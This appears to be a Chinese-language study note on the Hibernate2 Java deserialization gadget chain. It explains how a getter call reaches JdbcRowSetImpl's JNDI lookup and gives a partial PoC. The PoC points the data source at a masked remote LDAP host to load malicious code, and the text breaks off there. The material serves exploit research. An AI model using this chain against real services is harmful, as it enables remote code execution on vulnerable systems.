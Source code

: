 ```java
       SerializeUtil.readFileObject("h1");
    }
}
```

# Hibernate2

既然是触发 getter 方法，这就让我们想到了 fastjson 的经典触发方式，除了 TemplatesImpl 实例化恶意类字节码，还有 JdbcRowSetImpl 触发恶意 JNDI 查询，Hibernate2 就是这种方式，不知道这两个漏洞是谁先出的，谁借鉴的谁。

在 fastjson 中使用 JdbcRowSetImpl 的 `setAutoCommit`（setter）方法触发 JNDI 查询，而在 Hibernate2 中由于是触发 getter 方法，因此我们选择 `getDatabaseMetaData`。

![image-20211113220741158](img/image-20211113220741158.png)



## 利用条件

Hibernate : 3-5

## Poc

```java
import Tools.SerializeUtil;
import com.sun.rowset.JdbcRowSetImpl;
import org.hibernate.engine.spi.TypedValue;
import org.hibernate.property.BasicPropertyAccessor;
import org.hibernate.property.Getter;
import org.hibernate.tuple.component.ComponentTuplizer;
import org.hibernate.type.Type;

import java.util.HashMap;

/***
 * HashMap.readObject()
 *     TypedValue.hashCode()
 *         ValueHolder.getValue()
 *             ValueHolder.DeferredInitializer().initialize()
 *                 ComponentType.getHashCode()
 *                     PojoComponentTuplizer.getPropertyValue()
 *                         AbstractComponentTuplizer.getPropertyValue()
 *                             BasicPropertyAccessor$BasicGetter.get()/GetterMethodImpl.get()
 *                                 JdbcRowSetImpl.getDatabaseMetaData()
 */


public class H2byme {
    private static Object evil;

    public static void main(String[] args) throws Exception {

        JdbcRowSetImpl evilObj=new JdbcRowSetImpl();
        evilObj.setDataSourceName("ldap://*****/4xrotz");
```